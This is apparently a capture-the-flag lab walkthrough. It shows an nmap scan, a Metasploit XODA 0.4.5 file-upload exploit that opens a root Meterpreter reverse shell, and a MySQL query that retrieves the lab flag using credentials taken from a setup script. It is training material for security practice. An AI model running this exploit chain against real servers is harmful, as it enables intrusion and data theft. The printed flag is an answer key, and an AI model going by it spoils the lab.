

#### 1. Attacking Microservice Containers I

----

- A vulnerable document management system is running in a containerized environment. The vulnerability is publicly known and even a Metasploit module is available to exploit it.
- Objective: Exploit the vulnerability to get a shell on the target container and retrieve the flag!

----

```sh
root@attackdefense:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2314: eth0@if2315: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:01:01:04 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.1.1.4/24 brd 10.1.1.255 scope global eth0
       valid_lft forever preferred_lft forever
2317: eth1@if2318: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c0:7d:e5:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.125.229.2/24 brd 192.125.229.255 scope global eth1
       valid_lft forever preferred_lft forever
root@attackdefense:~# 
```

```sh
root@attackdefense:~# nmap -sC -sV 192.125.229.3/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-25 12:53 IST
Nmap scan report for 192.125.229.1
Host is up (0.0000080s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:bb:f1:71:df:c2:89:fd:6e:e1:88:bd:fb:aa:8a:44 (RSA)
|   256 b6:8f:cd:3f:af:6b:18:39:a5:c6:bf:45:09:33:44:89 (ECDSA)
|_  256 08:b6:4c:87:9d:db:a7:73:09:4f:45:65:9c:f0:2a:9a (ED25519)
80/tcp filtered http
MAC Address: 02:42:26:BF:B9:80 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for exqyr7lird2s67yp2mcfxeruz.temp-network_a-125-229 (192.125.229.3)
Host is up (0.000013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.14.2
|_http-title: XODA
MAC Address: 02:42:C0:7D:E5:03 (Unknown)

Nmap scan report for attackdefense.com (192.125.229.2)
Host is up (0.0000060s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE OPTIONS
|   Potentially risky methods: PUT DELETE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (3 hosts up) scanned in 29.10 seconds
root@attackdefense:~# 
```

```
http://192.125.229.3/
```



```sh
root@attackdefense:~# msfconsole 
msf5 > search xoda

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   1  exploit/unix/webapp/xoda_file_upload  2012-08-21       excellent  Yes    XODA 0.4.5 Arbitrary PHP File Upload Vulnerability


msf5 > use exploit/unix/webapp/xoda_file_upload
msf5 exploit(unix/webapp/xoda_file_upload) > show options 

Module options (exploit/unix/webapp/xoda_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /xoda/           yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   XODA 0.4.5


msf5 exploit(unix/webapp/xoda_file_upload) > set RHOSTS 192.125.229.3
RHOSTS => 192.125.229.3
msf5 exploit(unix/webapp/xoda_file_upload) > set TARGETURI /
TARGETURI => /
msf5 exploit(unix/webapp/xoda_file_upload) > exploit 

[*] Started reverse TCP handler on 192.125.229.2:4444 
[*] Sending PHP payload (RJzjtSNRLrGxE.php)
[*] Executing PHP payload (RJzjtSNRLrGxE.php)
[*] Sending stage (38247 bytes) to 192.125.229.3
[*] Meterpreter session 1 opened (192.125.229.2:4444 -> 192.125.229.3:38650) at 2019-07-25 12:57:52 +0530
[!] Deleting RJzjtSNRLrGxE.php

meterpreter > getuid 
Server username: root (0)
meterpreter > shell
Process 550 created.
Channel 0 created.

find / -name *flag*
/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu16/domain0/flags
/proc/sys/kernel/sched_domain/cpu17/domain0/flags
/proc/sys/kernel/sched_domain/cpu18/domain0/flags
/proc/sys/kernel/sched_domain/cpu19/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/proc/sys/kernel/sched_domain/cpu4/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/proc/kpageflags
find: '/proc/44/map_files': Permission denied
find: '/proc/467/map_files': Permission denied
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/ss_flags.ph
/usr/lib/x86_64-linux-gnu/perl/5.26.1/bits/waitflags.ph
/var/lib/mysql/debian-5.7.flag
/var/lib/mysql/flag
/var/lib/mysql/flag/flag.frm
/var/lib/mysql/flag/flag.ibd
/sys/devices/pnp0/00:03/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
/sys/module/scsi_mod/parameters/default_dev_flags

netstat -alnp
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      8/nginx: master pro 
tcp        0      0 127.0.0.11:44215        0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:44796         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44616         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44552         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44622         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44674         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44716         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44472         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44784         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44460         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44570         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44660         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44772         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44440         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44698         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44754         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44692         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44522         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 192.125.229.3:38650     192.125.229.2:4444      ESTABLISHED 13/php-fpm: pool ww 
tcp        0      0 127.0.0.1:44778         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44582         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44790         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44546         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44448         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44558         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44466         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44564         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44498         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44510         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44628         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44594         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44528         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44504         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44736         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44454         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44608         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44730         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44680         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44534         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44742         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44588         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44434         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44654         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44576         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44760         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44748         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44666         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44766         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44602         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44648         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44492         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44704         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44484         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44710         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44516         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44722         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44540         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44636         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44478         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44642         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44686         127.0.0.1:80            TIME_WAIT   -                   
tcp        0      0 127.0.0.1:44802         127.0.0.1:80            TIME_WAIT   -                   
tcp6       0      0 :::80                   :::*                    LISTEN      8/nginx: master pro 
udp        0      0 127.0.0.11:44034        0.0.0.0:*                           -                   
Active UNIX domain sockets (servers and established)
Proto RefCnt Flags       Type       State         I-Node   PID/Program name     Path
unix  2      [ ACC ]     STREAM     LISTENING     18104373 11/php-fpm: master   /run/php/php5.6-fpm.sock
unix  2      [ ACC ]     STREAM     LISTENING     18103668 1/python             /var/run/supervisor.sock.1
unix  2      [ ACC ]     STREAM     LISTENING     18062023 -                    /var/run/mysqld/mysqld.sock
unix  3      [ ]         STREAM     CONNECTED     18096820 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096805 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096817 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096796 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096815 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096797 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096821 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096810 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096814 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18104371 11/php-fpm: master   
unix  3      [ ]         STREAM     CONNECTED     18096819 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096798 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096806 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096822 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096813 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096812 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096804 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096802 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096807 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096826 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096811 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096816 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096799 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096803 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096825 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096801 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096818 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096824 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096809 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096800 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18104372 11/php-fpm: master   
unix  3      [ ]         STREAM     CONNECTED     18096823 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096808 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096830 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096831 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096835 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096833 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096828 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096827 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096832 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096834 8/nginx: master pro  
unix  3      [ ]         STREAM     CONNECTED     18096829 8/nginx: master pro  
unix  2      [ ]         STREAM     CONNECTED     18116665 13/php-fpm: pool ww  /run/php/php5.6-fpm.sock

ls -l /
total 84
drwxr-xr-x   1 root root 4096 May 14 18:13 bin
drwxr-xr-x   2 root root 4096 Apr 24  2018 boot
drwxr-xr-x   5 root root  340 Jul 25 12:51 dev
-rw-r--r--   1 root root    0 May 14 18:13 dmp.sql
drwxr-xr-x   1 root root 4096 Jul 25 12:51 etc
drwxr-xr-x   2 root root 4096 Apr 24  2018 home
drwxr-xr-x   1 root root 4096 May 23  2017 lib
drwxr-xr-x   2 root root 4096 Mar  8 02:30 lib64
drwxr-xr-x   2 root root 4096 Mar  8 02:30 media
drwxr-xr-x   2 root root 4096 Mar  8 02:30 mnt
-rwxr-xr-x   1 root root  253 May 14 15:29 mysql-setup.sh
drwxr-xr-x   2 root root 4096 Mar  8 02:30 opt
dr-xr-xr-x 388 root root    0 Jul 25 12:51 proc
drwx------   1 root root 4096 May 14 18:13 root
drwxr-xr-x   1 root root 4096 Jul 25 12:51 run
-rwxr-xr-x   1 root root   32 Mar 19 21:00 run.sh
drwxr-xr-x   1 root root 4096 May 14 18:13 sbin
drwxr-xr-x   2 root root 4096 Mar  8 02:30 srv
-rwxr-xr-x   1 root root   88 May 14 15:40 start-nginx.sh
dr-xr-xr-x  13 root root    0 Jul 20 20:37 sys
drwxrwxrwt   1 root root 4096 Jul 25 12:57 tmp
drwxr-xr-x   1 root root 4096 Mar  8 02:30 usr
drwxr-xr-x   1 root root 4096 May 14 15:32 var


cat /mysql-setup.sh
#! /bin/bash

mysql -uroot -proot -e "CREATE DATABASE app DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci"
mysql -uroot -proot -e "GRANT ALL ON app.* TO 'pentester'@'localhost' IDENTIFIED BY 'password1'"
mysql -u pentester -ppassword1 app < /dmp.sql

mysql -uroot -proot -e 'use flag;show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_flag
flag

mysql -uroot -proot -e 'use flag;select * from flag;;'
mysql: [Warning] Using a password on the command line interface can be insecure.
flag
72edcd3b274823ae6792c7e186df387b

exit
meterpreter > 
```

----

EOF